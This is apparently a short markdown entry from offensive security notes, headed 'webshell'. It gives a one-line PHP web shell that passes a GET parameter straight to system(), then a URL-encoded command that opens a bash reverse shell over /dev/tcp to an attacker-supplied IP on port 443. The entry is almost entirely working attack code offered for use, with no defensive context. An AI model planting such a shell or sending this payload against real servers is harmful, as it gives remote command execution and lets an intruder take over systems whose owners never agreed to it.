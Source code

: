 ## webshell

write a file with the following content:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

verify by calling with the parameter `?cmd=id`, then exploit:

```bash
?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F443%200%3E%261%22
```
